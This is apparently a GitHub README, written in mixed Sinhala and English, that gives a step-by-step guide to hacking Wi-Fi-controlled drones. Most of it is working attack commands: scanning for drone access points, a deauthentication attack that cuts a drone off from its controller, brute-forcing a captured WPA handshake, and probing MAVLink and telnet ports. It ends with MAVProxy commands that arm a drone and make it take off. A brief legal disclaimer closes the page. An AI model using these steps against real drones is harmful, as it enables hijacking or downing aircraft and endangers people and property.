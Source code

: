 Wi-Fi adapter එකක් භාවිතා කරලා **Wi-Fi-controlled drones** scan කරලා, එයට attack කරලා exploit කිරීමක් කළ හැක. මේක **Wi-Fi Hacking + MAVLink Attacks** එකට සම්බන්ධයි.  

---

<p align="center"> <img src="https://github.com/chamidu200/Drone-Hack-/blob/bd1f26d202a029bec1012f000adb353731170a5d/Drones.jpg" alt="chamidu200" /> </p>

## **🔍 Step 1: Drone එක Scan කිරීම (Wi-Fi Hunting)**  
Wi-Fi adapter එක **monitor mode** එකට set කරලා nearby drones scan කළ හැක.  

### **1️⃣ Enable Monitor Mode (Linux/Kali)**  
```bash
airmon-ng start wlan0
```
- **`wlan0mon`** (new interface) යනු monitor mode වල ඇති Wi-Fi adapter එකයි.

### **2️⃣ Scan for Drone Wi-Fi Signals**
```bash
airodump-ng wlan0mon
```
> **Common Drone Wi-Fi Names:**  
> - **DJI drones** → `DJI_xxxxxx`  
> - **Parrot drones** → `Parrot_xx`  
> - **Other Drones** → `Drone_xx`, `FPV_xx`, `UAV_xx`  

### **3️⃣ Find the Drone’s Channel & BSSID**
Once the drone's Wi-Fi is detected, note its:  
- **BSSID (MAC Address)**  
- **Channel (CH)**  

```bash
airodump-ng -c <CHANNEL> --bssid <BSSID> -w drone_capture wlan0mon
```

---

## **📡 Step 2: Drone Exploitation Methods**  

### **🔥 Method 1: Wi-Fi Deauthentication Attack (Kick the Controller Off)**  
```bash
aireplay-ng -0 0 -a <BSSID> wlan0mon
```
- This will disconnect the drone from its controller.
- If the drone has no return-to-home feature, it may hover or land.

### **🔥 Method 2: Wi-Fi Password Cracking**  
If the drone is using **WPA/WPA2 encryption**, capture the handshake:  
```bash
airmon-ng start wlan0
airodump-ng -c <CHANNEL> --bssid <BSSID> -w drone_wifi wlan0mon
```
After capturing the handshake, use brute force:  
```bash
aircrack-ng -w rockyou.txt -b <BSSID> drone_wifi.cap
```
Once cracked, connect to the drone’s Wi-Fi and control it via mobile apps or MAVProxy.

### **🔥 Method 3: MAVLink Exploits (If Open Ports Exist)**  
After connecting to the drone’s Wi-Fi, scan for open MAVLink ports:  
```bash
nmap -p 23,80,14550,5555 <DRONE_IP>
```
If port `14550` is open (MAVLink), take control:  
```bash
mavproxy.py --master=udp:<DRONE_IP>:14550
```
```bash
mode GUIDED
arm throttle
takeoff 10
```
> **If Port 23 (Telnet) is open:**  
```bash
telnet <DRONE_IP>
```
> - Some Parrot drones allow remote access with **default credentials**.

---

## **⚠️ Legal Warning**  
🚨 **Unauthorized access to a drone is illegal in most countries.**  
මෙය **CTF challenges, cybersecurity research, and ethical pentesting** සඳහා පමණක් භාවිතා කරන්න. Unauthorized hacking **FAA, FCC, GDPR laws වලට එරෙහි වේ**.  

##### **මොනට Ethical Drone Hacking / Cybersecurity Research කරන්න පුළුවන්ද?** 🚀
